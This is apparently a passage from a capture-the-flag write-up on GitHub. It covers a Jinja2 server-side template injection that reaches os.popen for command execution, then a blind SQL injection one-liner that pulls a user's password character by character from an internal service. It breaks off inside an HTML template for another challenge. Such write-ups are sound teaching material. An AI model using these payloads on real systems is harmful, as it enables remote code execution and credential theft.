 ```
username=assdf&password=%7B%7B%28config%7Cattr%28dict%28up%3Dup%2Cdate%3Ddate%29%7Cjoin%29%29%28t%3Drequest%5B%27args%27%5D%5B%27t%27%5D%29%7D%7D
```

![image](https://user-images.githubusercontent.com/75429369/180790318-8867c96d-eaa5-4db3-8f22-32ccfcb4d1c1.png)

Read `{{config}}`

![image](https://user-images.githubusercontent.com/75429369/180790436-38012c35-e814-435d-b3a3-14946f3a2710.png)

Popen it

```python
{{lipsum['__globals__']['os']['popen'](config['t'])}}
```

![image](https://user-images.githubusercontent.com/75429369/180790561-1e502da6-0c0d-4469-b1bf-759927a0fec6.png)

![image](https://user-images.githubusercontent.com/75429369/180790589-b0937a51-941a-4be2-b525-1ec708ac0684.png)

Let's find out the IP 

![image](https://user-images.githubusercontent.com/75429369/180790704-9a3ded75-609b-4aae-838f-149dd2d83ffb.png)

So we got all we need, noticed that `requests` module was installed so we just use it to request to `http://172.24.0.8:8080/runquery`

![image](https://user-images.githubusercontent.com/75429369/180791111-0382a5c9-61a5-4108-b43a-75b4cec28c19.png)

```terminal
python3 -c "import requests; r=requests.post('http://172.24.0.8:8080/runquery', json={'username':'\'/**/or/**/(select/**/hex(substr(password,1,1))/**/from/**/users/**/where/**/username=\'flag\')/**/=/**/hex(\'L\')/**/--','password':'no'}); print(r.text)"
```

![image](https://user-images.githubusercontent.com/75429369/180793045-76e205d3-a38d-4ca8-b4f4-7de0fc51c757.png)

Now just write a script for all that :D

# EYANGCH Fan Art Maker (intended solution)

I'm very curious about the actual solution so let's just find out what's the intended solution of this chall. Let's read the code again (I've missed the `views` folder for the hold event :D)

![image](https://user-images.githubusercontent.com/75429369/180924860-ad5d0c06-4def-4d6d-81eb-179e18eec876.png)

```html
<!DOCTYPE HTML>
<html>
    <head>
        <title>EYANGCH Fan Art Maker <3</title>
        <style>
            .bg{
                background-image: url("https://cdn.discordapp.com/avatars/622575440305061910/e0fa5d8c91cc24f83af648736072d330.webp?size=256");
                background-repeat: repeat;
                opacity: 0.3;
                top: 0;
                left: 0;
                right: 0;
                position: absolute;
                z-index: -1; 
                height: 300%; 
            }
            pre code {
                background-color: #eee;
```
